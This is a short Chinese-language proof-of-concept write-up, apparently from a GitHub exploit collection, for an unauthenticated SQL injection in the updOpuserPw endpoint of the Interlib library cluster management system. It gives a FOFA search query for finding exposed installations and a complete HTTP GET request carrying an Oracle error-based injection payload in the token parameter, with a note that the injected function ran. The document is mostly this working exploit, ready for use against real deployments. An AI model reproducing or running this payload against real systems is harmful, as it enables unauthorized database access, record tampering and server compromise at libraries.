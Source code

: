 # 图书馆集群管理系统interlib updOpuserPw SQL注入漏洞

## 1.漏洞描述

Interlib图书馆集群管理系统是全新的第三代图书馆系统，它作为资源共建共享的新的实现形式，打破了各图书馆单位所有，条块分割的局面，将城市图书馆群或高校多个校区的图书馆作为一个整体进行管理，从而能达到资源共建共享、合理配置和图书馆之间互相合作的目的。其updOpuserPw接口存在SQl注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息，例如添加、删除或修改记录，进而控制服务器系统。

## 2.搜索语法

```plain
fofa：body="interlib"
```

## 3.漏洞复现

```plain
GET /interlib3/service/sysop/updOpuserPw?loginid=test&newpassword=12356&token=1%27and+ctxsys.drithsx.sn(1,(select%20MOD(9,9)%20from%20dual))=%272 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

SQL报错成功执行取模运算函数

![image](https://github.com/hardog123/poc-exp/assets/170905460/b745d643-9437-42d3-9963-953b5e0561f4)
